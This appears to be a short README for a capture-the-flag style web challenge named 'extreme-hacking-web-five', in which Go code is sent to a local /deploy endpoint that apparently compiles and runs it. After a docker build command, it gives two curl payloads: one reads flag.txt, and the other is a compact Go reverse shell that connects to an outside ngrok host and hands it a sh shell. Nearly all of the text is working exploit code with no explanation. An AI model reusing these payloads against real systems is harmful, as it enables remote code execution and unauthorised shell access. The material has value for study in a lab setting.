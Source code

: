 # extreme-hacking-web-five

docker buildx build --platform linux/amd64 . -t go-remote-code --load


curl -X POST -d 'package main
  
import ( 
        "fmt"                 
        "os/exec"
)                
  
func main() {                             
        // Comando para executar o script shell
        cmd := exec.Command("cat", "flag.txt")   
    
        // Executa o comando e captura a saída
        output, err := cmd.CombinedOutput()
        if err != nil {
                fmt.Println("Erro ao executar o script:", err)
                return
        }

        // Imprime a saída do script
        fmt.Println(string(output))
}
' http://localhost:8080/deploy

curl -X POST \
  -d 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","0.tcp.sa.ngrok.io:13049");cmd:=exec.Command("sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' \
  http://localhost:8080/deploy
